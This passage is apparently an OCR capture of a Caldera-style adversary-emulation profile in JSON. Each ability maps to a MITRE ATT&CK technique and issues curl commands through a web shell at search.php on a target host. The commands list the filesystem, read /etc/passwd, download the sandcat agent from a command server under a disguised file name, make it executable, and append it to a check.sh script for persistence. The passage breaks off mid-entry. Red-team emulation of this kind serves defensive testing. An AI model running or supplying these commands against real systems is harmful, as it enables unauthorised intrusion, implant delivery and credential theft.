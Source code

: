 ```json
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Information Discovery",
      "attack_id": "T1082"
    },
    {
      "ability_id": "65dd006d-a76e-423d-83f2-6c29b66690e1",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=ls+-lsahR+/\" 2>/dev/null\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "File and Directory Discovery",
      "attack_id": "T1083"
    },
    {
      "ability_id": "c7e4a043-e67a-4199-8e52-d7d5219a7614",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=cat+/etc/passwd\" 2>/dev/null\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "OS Credential Dumping: /etc/passwd and /etc/shadow",
      "attack_id": "T1003.008"
    },
    {
      "ability_id": "a85bd5a0-c977-4fd1-b339-97fffed54f8c",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=curl+--insecure+-X+POST+-H+file:sandcat.go+-H+platform:linux+-H+server:#{server}+-H+group:caladan+#{server}/file/download+-o+centreon_module_linux_app64\" 2>/dev/null;\ncurl --insecure \"https://#{initial.target.host}/search.php?cmd=ls+-lsah\" 2>/dev/null;\ncurl --insecure \"https://#{initial.target.host}/search.php?cmd=chmod+755+centreon_module_linux_app64\" 2>/dev/null;\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "decf0a4d-6ff1-474f-af0c-5b652401a5e4",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh\" 2>/dev/null;\n"
      },
      "privilege": "Unknown",
      "tactic": "privilege-escalation",
      "technique": "Abuse Elevation Control Mechanism: Setuid and Setgid",
      "attack_id": "T1548.001"
    },
    {
      "ability_id": "8ba8405b-d8b9-4c9d-ae8e-3b21ae8f64c6",
      "platform": "linux",
      "commands": {
        "proc": "exec-background curl -s --insecure \"https://#{initial.target.host}/search.php?cmd=/bin/backup\"\n"
```